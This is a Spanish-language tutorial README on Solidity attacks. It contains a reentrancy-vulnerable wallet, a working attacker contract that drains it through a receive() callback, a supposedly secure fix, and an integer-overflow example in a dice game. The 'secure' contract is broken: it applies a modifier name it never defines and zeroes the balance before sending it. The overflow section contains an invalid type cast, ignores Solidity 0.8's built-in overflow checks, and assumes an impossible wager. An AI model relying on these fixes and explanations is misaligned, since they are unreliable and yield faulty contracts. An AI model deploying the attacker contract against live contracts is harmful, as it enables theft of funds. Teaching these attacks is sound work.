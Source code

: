 # Solidity_Attacks

## :boom: Reentrancy Attack  

Para comprender mejor el ataque de reentrancia, primero debemos entender el funcionamiento de las funciones y las transacciones en Solidity. Cuando se llama a una función en un contrato inteligente, se inicia una nueva transacción en la red de Ethereum. Durante esta transacción, el contrato inteligente realiza ciertas operaciones y puede llamar a otras funciones o enviar Ether a otros contratos o direcciones. Cuando se llama a una función en un contrato inteligente, cualquier código adicional que se ejecute dentro de esa función se ejecuta en el mismo contexto de la transacción original.

Ahora, para entender mejor cómo funciona un ataque de reentrancia, imaginemos que un contrato inteligente tiene una función que permite a los usuarios retirar Ether de su cuenta en el contrato. Esta función, digamos "retirar()", realiza una serie de operaciones, como verificar el saldo de la cuenta del usuario, actualizar el saldo y enviar Ether a la dirección del usuario. Ahora, si un atacante malintencionado crea un contrato que llama a la función "retirar()" del contrato inteligente, pero luego vuelve a llamar a "retirar()" antes de que la transacción original se haya completado, el contrato malintencionado puede seguir retirando Ether del contrato inteligente de manera repetitiva, aprovechando el hecho de que la función "retirar()" aún no ha terminado de ejecutarse.

Para ilustrar esto con un ejemplo de código, aquí hay un contrato inteligente de ejemplo llamado "WalletInsegura.sol", que contiene una función "retirar()" vulnerable al ataque de reentrancia:


**WalletInsegura.sol**

```
// SPDX-License-Identifier: MIT
pragma solidity 0.8.0;

contract WalletInsegura {
    mapping (address => uint256) private balances;

    function balance() external view returns (uint256) {
        return address(this).balance;
    }

    function depositar() external payable {
        balances[msg.sender] += msg.value;
    }

    function retirar() external {
        require(balances[msg.sender] > 0, "Insufficient balance");

        (bool success, ) = payable(msg.sender).call{value: balances[msg.sender]}("");
        require(success, "Error al enviar eth");

        balances[msg.sender] = 0;
    }
}
```

En este contrato, los usuarios pueden depositar Ether en su cuenta en el contrato llamando a la función "deposit()", que simplemente actualiza el saldo del usuario en el mapa "balances". Sin embargo, la función "retirar()" es vulnerable a un ataque de reentrancia. Si un atacante malintencionado crea un contrato que llama repetidamente a "retirar()", como se muestra a continuación, el contrato puede retirar Ether del contrato inteligente de manera repetitiva hasta que se quede sin fondos.

Ahora, crearemos un contrato malintencionado llamado "Ataque.sol" para explotar la vulnerabilidad en el contrato "WalletInsegura.sol". El código para el contrato malintencionado:


**Ataque.sol**  

```
// SPDX-License-Identifier: MIT
pragma solidity 0.8.0;

interface IWallet {
    function depositar() external payable;
    function retirar() external;
}

contract Ataque {
    IWallet public immutable wallet;

    constructor(IWallet _wallet) {
        wallet = _wallet;
    }

    function atacar() external payable {
        require(msg.value == 1 ether, "Insuficiente eth");
        wallet.depositar{value: 1 ether}();
        wallet.retirar();
    }
    
    receive() external payable {
        if (address(wallet).balance >= 1 ether)
            wallet.retirar();
    }

    function balance() external view returns (uint256) {
        return address(this).balance;
    }
}
```

Este contrato malintencionado tiene una función llamada "ataque()" que corrobora que se haya enviado ether suficiente para realizar el ataque, hará un depósito llamando a la función "depositar()" ya que la función "retirar()" requiere que este tenga balance y luego llama a la función "retirar()" nuevamente antes de que se actualice el balance en el contrato vulnerable. 

Finalmente, el contrato malintencionado también tiene una función de fallback que se activa cuando se envía Ether al contrato sin especificar una función. Esta función comprueba el saldo del contrato "WalletInsegura.sol" y llama a la función "retirar()" si hay suficiente saldo disponible. Esto se repite hasta que el contrato malintencionado agota los fondos del contrato "WalletInsegura.sol".


Para protegerse contra el ataque de reentrancia, los desarrolladores deben asegurarse de que las funciones críticas del contrato inteligente estén diseñadas para evitar llamadas repetitivas o llamadas a otras funciones que puedan ser explotadas por un atacante malintencionado. Una forma común de hacerlo es usar el patrón de bloqueo de estado, que bloquea el estado del contrato inteligente durante la ejecución de una función para evitar que otras funciones se llamen antes de que la transacción original se complete.

Aquí está el código completo del contrato seguro "WalletSegura.sol" que utiliza el patrón de bloqueo de estado:


**WalletSegura.sol**
```
// SPDX-License-Identifier: MIT
pragma solidity 0.8.0;

contract WalletSegura {
    bool internal bloqueado;
    mapping (address => uint256) private balances;

    function balance() external view returns (uint256) {
        return address(this).balance;
    }

    function depositar() external payable {
        balances[msg.sender] += msg.value;
    }

    function retirar() external noReentrada{
        require(balances[msg.sender] > 0, "Insufficient balance");
        balances[msg.sender] = 0;
        (bool success, ) = payable(msg.sender).call{value: balances[msg.sender]}("");
        require(success, "Error al enviar eth");
    }

    modifier proteger() {
        require(!bloqueado, "Llamada de ataque");
        bloqueado = true;
        _;
        bloqueado = false;
    }
}
```

En este contrato, se ha agregado una variable booleana "bloqueado" para evitar que las funciones se llamen repetitivamente. La función "retirar()" ahora tiene un modificador personalizado "noReentrada()" que bloquea la función "retirar()" si ya está en ejecución. El modificador establece la variable "bloqueado" en verdadero al inicio de la ejecución de la función y la establece en falso al finalizar. Esto garantiza que la función "retirar()" no se llame repetidamente hasta que se complete la transacción original.


Link: https://www.youtube.com/watch?v=rrvU3DSbXKo  
Repo: https://github.com/meta-dapp/reentracy  



## :boom: Integer overflow/underflow attack  

En Solidity, las variables enteras tienen un rango de valores permitidos, que depende del tipo de variable. Por ejemplo, el tipo **uint8** tiene un rango de valores permitidos de 0 a 255, mientras que el tipo **uint256** tiene un rango de valores permitidos de 0 a 2^256-1.

El ataque de desbordamiento de enteros se produce cuando se manipula una variable para que su valor exceda el rango permitido. Esto puede provocar que la variable se desborde y tome un valor incorrecto, lo que puede causar comportamientos inesperados o incluso el bloqueo del contrato.

Por ejemplo, considera el siguiente contrato de Solidity que permite a un usuario apostar en un juego de dados:

```
contract JuegoDeDados {
    uint256 public balance;
    
    function apostar(uint8 _numero) public payable {
        require(msg.value > 0);
        require(_numero >= 1 && _numero <= 6);
        uint8 dado = uint8(keccak256(abi.encodePacked(block.timestamp, msg.sender))) % 6 + 1;
        if (dado == _numero) {
            balance += msg.value * 5;
            msg.sender.transfer(msg.value * 5);
        } else {
            balance += msg.value;
        }
    }
}
```

En este contrato, el usuario puede apostar en un número del 1 al 6. Si el número apostado coincide con el número que sale en el dado, el usuario gana cinco veces su apuesta. De lo contrario, el usuario pierde su apuesta. El valor de la apuesta se agrega al balance del contrato.

Sin embargo, hay un problema de desbordamiento de enteros en la línea **balance += msg.value * 5**;. Si el balance actual es mayor o igual a 2^256-5 y un usuario apuesta la cantidad máxima permitida de ether (que es 2^256-1 wei), entonces el resultado del producto **msg.value * 5** excederá el rango permitido y provocará un desbordamiento. Esto hará que el balance tome un valor incorrecto y puede provocar que el contrato no funcione correctamente.

Para evitar este problema, se podría utilizar una librería segura de manejo de enteros, como la librería SafeMath de OpenZeppelin, que se encarga de verificar los límites de los enteros antes de realizar operaciones con ellos. También es importante realizar pruebas exhaustivas del código para identificar y corregir posibles vulnerabilidades.
